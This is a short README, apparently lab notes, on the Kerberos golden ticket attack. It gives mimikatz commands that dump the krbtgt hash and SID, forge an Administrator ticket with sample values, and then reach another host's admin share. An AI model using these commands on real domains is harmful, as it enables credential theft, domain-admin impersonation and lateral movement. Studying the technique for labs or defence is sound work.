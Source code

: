 # Golden-Ticket-Attack

A golden ticket attack works by dumping the ticket-granting ticket of any user on the domain this would preferably be a domain admin however for a golden ticket you would dump the krbtgt ticket and for a silver ticket, you would dump any service or domain admin ticket. This will provide you with the service/domain admin account's SID or security identifier that is a unique identifier for each user account, as well as the NTLM hash. You then use these details inside of a mimikatz golden ticket attack in order to create a TGT that impersonates the given service account information.

### Golden Ticket Attacks w/ mimikatz 
Using mimikatz.exe, we gonna dump the krbtgt hash and sid.
```markdown
.\mimikatz.exe
privilege::debug
lsadump::lsa /inject /name:krbtgt
```



Now generate golden ticket using krbtgt hash and sid.
```markdown
Kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:500
```
NOTE: id is set to 500 for golden ticket attack.

Now run the cmd to use ticket.
```markdown
misc::cmd
dir \\DESKTOP-1\c$
```

